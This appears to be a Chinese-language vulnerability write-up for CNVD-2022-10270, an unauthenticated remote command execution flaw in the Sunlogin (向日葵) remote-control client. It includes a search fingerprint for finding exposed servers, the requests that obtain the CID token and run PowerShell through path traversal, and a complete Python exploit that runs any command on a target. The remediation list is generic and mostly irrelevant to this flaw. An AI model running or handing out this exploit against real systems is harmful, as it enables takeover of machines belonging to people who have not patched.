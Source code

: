 # 

# 向日葵 check 远程命令执行漏洞 CNVD-2022-10270

## 漏洞描述

向日葵通过发送特定的请求获取CID后，可调用 check接口实现远程命令执行，导致服务器权限被获取

## 漏洞影响

```
11.0.0.33162
```

## 网络测绘

```
body="Verification failure"
```

## 漏洞复现

向日葵在开启后会默认在 40000-65535 之间开启某端口

![image-20220524135408561](./images/202205241354598.png)

发送请求获取CID

```
/cgi-bin/rpc?action=verify-haras
```

![image-20220524135428094](./images/202205241354132.png)

使用获取到的 verify_string 作为 cookie的 CID字段，进行命令执行

```
/check?cmd=ping..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fwindows%2Fsystem32%2FWindowsPowerShell%2Fv1.0%2Fpowershell.exe+ipconfig
```

![](./images/202205241354108.png)

## 漏洞修复

1. 输入检查:应用程序必须实现输入检查机制，将所有从外部接收的数据都进行严格的检查和过滤，防止恶意代码被注入。
2. 参数化查询:采用参数化查询可以防止攻击者通过利用应用程序的注入漏洞来修改查询语句，实现任意代码执行的攻击。
3. 输出编码:在输出时对敏感字符进行编码保护，比如 HTML 编码，防止恶意代码直接输出执行。
4. 使用最新的安全防护措施:保证服务器系统和应用程序的所有组件、库和插件都是最 新的，确保已知的漏洞都得到修复。
5. 强制访问控制:应该设置访问控制机制，确保恶意用户无法访问敏感数据和代码。

## 漏洞POC

exp：

```
import requests,sys
 
ip = sys.argv[1]
command = sys.argv[2]
payload1 = "/cgi-bin/rpc?action=verify-haras"
payload2 = "/check?cmd=ping../../../../../../../../../windows/system32/WindowsPowerShell/v1.0/powershell.exe+"
headers = {
    'user-agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0'
}
 
if "http://" not in ip:
    host = "http://" + ip
else:
    host = ip
 
try:
    s = requests.Session()
    res = s.get(url=host + payload1,headers=headers)
    if res.status_code == 200:
        res = res.json()
        Cid = res['verify_string']
        headers.update({'Cookie':"CID=" + Cid})
        res1 = s.get(url=host + payload2 + command,headers=headers)
        res1.encoding = "GBK"
        print(res1.text)
    else:
        pass
except Exception as e:
    print(e)
```


